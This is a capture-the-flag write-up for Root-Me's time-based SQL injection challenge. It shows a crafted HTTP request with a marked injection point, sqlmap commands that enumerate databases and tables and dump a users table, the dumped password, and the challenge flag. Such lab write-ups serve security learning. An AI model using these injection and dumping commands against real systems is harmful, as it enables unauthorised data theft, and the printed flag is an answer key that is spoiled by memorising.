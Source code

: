```yaml
---
layout: default
title: SQL-injection-Time-based
---
```


This time we are gonna use `sqlmap`.

First, this would be our `req.txt`:
```
GET /web-serveur/ch40/?action=member&member=1* HTTP/1.1
Host: challenge01.root-me.org
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,he;q=0.8
Cookie: PHPSESSID=a0a9bf6cba3fb6496406e26de8562935
Connection: keep-alive
```

Notice the `*` I added, there would be the injection point.

Then, we'll run this command:
```bash
sqlmap -r req.txt --risk=3 --level=5 --batch --dbs
```
we give this `--risk=3 --level=5` because we want it to be aggressive. we give `--batch`, this says: "Don't ask me about anything during the running, if there is some question, do the default behavior".

And finally we got `--dbs`, which says dump the databases
this is the databases we got:
```
public
```
![get db](./images/SQL-injection-Time-based_db.png)

Now, we want to get tables, and we know the database, so this is the command:
```bash
sqlmap -r req.txt --batch -D public --tables
```
This is the response
```
[2 tables]
+-------+
| dual  |
| users |
+-------+
```
![get tables](./images/SQL-injection-Time-based_tables.png)

```bash
sqlmap -r req.txt --batch -D public -T users --dump
```
And the response
```
Database: public
Table: users
[3 entries]
+---------+------------------------+----------+--------------+----------+-----------+
| id      | email                  | lastname | password     | username | firstname |
+---------+------------------------+----------+--------------+----------+-----------+
| 1       | ycam@sqlitimebased.com | MAC      | T!m3B@s3DSQL! | <blank>  | Yann      |
| <blank> | <blank>                | <blank>  | <blank>      | <blank>  | k         |
| <blank> | <blank>                | <blank>  | <blank>      | <blank>  | V         |
+---------+------------------------+----------+--------------+----------+-----------+
```

![FINAL](./images/SQL-injection-Time-based_FINAL.png)

**Flag:** **_`T!m3B@s3DSQL!`_**